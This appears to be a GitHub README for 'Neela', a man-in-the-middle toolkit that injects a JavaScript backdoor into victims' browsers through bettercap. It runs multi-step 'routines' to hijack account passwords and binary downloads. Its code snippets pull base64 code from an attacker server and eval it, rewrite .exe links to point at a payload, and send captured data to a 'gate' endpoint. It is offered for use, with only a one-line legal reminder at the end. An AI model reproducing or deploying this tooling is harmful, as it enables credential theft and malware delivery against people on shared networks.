<p align="center">
<img  src ="https://s31.postimg.org/4s7r3ng0r/Neela_logo01_d.png" height="200" />
</p>
<br />


###### Resume:

Neela, MITM extension tools can execute a routine.

A routine is execution of multiple steps, for hijack download binary... hijack account password ... and more.

###### Require:
    - express
    - body-parser
    - colors
    - cookie-parser
    - cookie-session
    - dns
    - ent
    - express-session
    - ip
    - socket.io
    - os
    - request-ip

![Neela LAN](https://s31.postimg.org/40czeg3zv/home.png)

##### Start server

```javascript
node neela.js
```

![Neela](https://s31.postimg.org/46463yy8b/Capture_d_e_cran_2016_07_07_a_16_27_26.png)

##### Hacking with bettercap

```
--proxy-module injectjs --js-url "http://SERV_IP:3000/backdoor"
```

![bettercap with Neela](https://s32.postimg.org/duji0l405/Capture_d_e_cran_2016_07_07_a_16_25_50.png)

##### Make Routine & Hack !
* Create folder on /exploit/routine

Create info file

```javascript
{
  "name": "Name routine",
  "step":[
      {"name":"step1.neela"},
      {"name":"step2.neela"}
      ]
  ,
  "author": "Author"
}

```

* Create step file exemple:

step1.neela

  ```javascript
    alert('My first routine');
  ```

* set neela environement

```javascript
var serveur_neela = '10.34.2.139'; // Serv ip.
var step_neela = 0; // step 0=1 1=2 ...
var routine_name = 'Routine_folder_name';
```

* Update end function

```javascript
function end_neela(){

	console.log('ok end');
	var req = new XMLHttpRequest();
	req.open('GET', 'http://'+serveur_neela+':3000/next/'+step_neela+'/'+routine_name, true);
	req.onreadystatechange = function() {
    if (req.readyState == XMLHttpRequest.DONE) {
        eval(Base64.decode(req.responseText));
    }
}
	req.send(null);
}
```

* Get next step

```javascript
end_neela();
```



```javascript
if(document.getElementsByTagName('a') !== undefined){
  var list = document.getElementsByTagName('a');
  for(var x = 0;x < list.length;x++){
    console.log(list[x].href);
    var current = list[x].href;
    if(current.indexOf('.exe') > -1){
      list[x].href = 'http://IP_SERVER:3000/payload'
    }
  }
}

```

##### Gate receipt

```javascript
var req = new XMLHttpRequest();
req.open('GET', 'http://SERV_IP:3000/gate/'+encoded, false);
req.send(null);
```
![Neela](https://s31.postimg.org/wdfic47wr/Capture_d_e_cran_2016_07_07_a_15_32_28.png)

##### Replace download link
- Select replace_exe.neela routine
- Update /exploit/routine/exe/hacked.exe

![Neela replace](https://s31.postimg.org/worb3hngr/Capture_d_e_cran_2016_07_07_a_16_46_56.png)

##### Neela Logs

![Neela logs](https://s31.postimg.org/qgshncf17/logs.png)


reminder, infiltrate, monitor, computer system without authorization is a crime
